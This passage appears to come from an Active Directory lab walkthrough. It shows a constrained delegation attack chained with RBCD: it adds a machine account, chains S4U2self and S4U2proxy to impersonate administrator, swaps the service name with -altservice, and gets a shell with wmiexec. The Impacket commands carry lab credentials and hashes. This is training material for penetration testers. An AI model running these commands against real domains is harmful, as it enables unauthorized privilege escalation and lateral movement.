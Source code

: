 - But if we do a s4u (s4u2self + s4u2proxy) like we did with protocol transition, the s4uself will send us a not forwardable TGS and the attack will fail.

- So to exploit and get the forwardable TGS we need, we first need to add a computer and use RBCD between the created computer (rbcd_const$) and the computer who have delegation set (here castelblack$).

- By doing that, you can do a s4u2self followed by a s4u2proxy on the added computer and the result is a forwardable tgs on hots/castelblack$ as administrator. Once that done, you have the forwardable ticket to pass to s4u2proxy, and we even can change the request service with -altservice

```
# add computer X (rbcd_const)
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'north.sevenkingdoms.local/arya.stark:Needle'

# add rbcd from X (rbcd_const) to constrained (castelblack)
rbcd.py -delegate-from 'rbcd_const$' -delegate-to 'castelblack$' -dc-ip 192.168.56.11 -action 'write' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
```

- Do the s4u2self followed by the s4u2proxy on castelblack (this is the classic RBCD attack)
```
# s4u2self on X (rbcd_const)
getST.py -self -impersonate "administrator" -dc-ip 192.168.56.11  north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'

# s4u2proxy from X (rbcd_const) to constrained (castelblack)
getST.py -impersonate "administrator" -spn "host/castelblack" -additional-ticket 'administrator@rbcd_const$@NORTH.SEVENKINGDOMS.LOCAL.ccache' -dc-ip 192.168.56.11  north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'
```

- You could also do the 2 (s4u2self + s4u2proxy) in one command :
`getST.py -spn 'host/castelblack' -impersonate Administrator -dc-ip 192.168.56.11 north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'`

- And launch the s4uProxy with the forwardable ticket
```
# s4u2proxy from constrained (castelblack) to target (winterfell) - with altservice to change the SPN in use
getST.py -impersonate "administrator" -spn "http/winterfell" -altservice "cifs/winterfell" -additional-ticket 'administrator@host_castelblack@NORTH.SEVENKINGDOMS.LOCAL.ccache' -dc-ip 192.168.56.11 -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'

export KRB5CCNAME=/workspace/administrator@cifs_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache 
wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell
```

- After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin:
```
rbcd.py -delegate-to 'castelblack$' -delegate-from 'rbcd_const$' -dc-ip 192.168.56.11 -action 'flush' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'north.sevenkingdoms.local/eddard.stark:FightP3aceAndHonor!' -delete
```
